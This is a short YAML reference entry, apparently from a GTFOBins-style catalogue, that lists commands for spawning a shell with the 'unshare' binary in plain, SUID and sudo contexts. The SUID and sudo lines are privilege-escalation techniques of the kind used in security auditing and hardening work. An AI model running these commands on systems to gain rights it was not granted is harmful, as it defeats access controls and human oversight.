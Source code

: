 ```yaml
---
functions:
  shell:
    - code: unshare /bin/sh
  suid:
    - code: ./unshare -r /bin/sh
  sudo:
    - code: sudo unshare /bin/sh
---
```

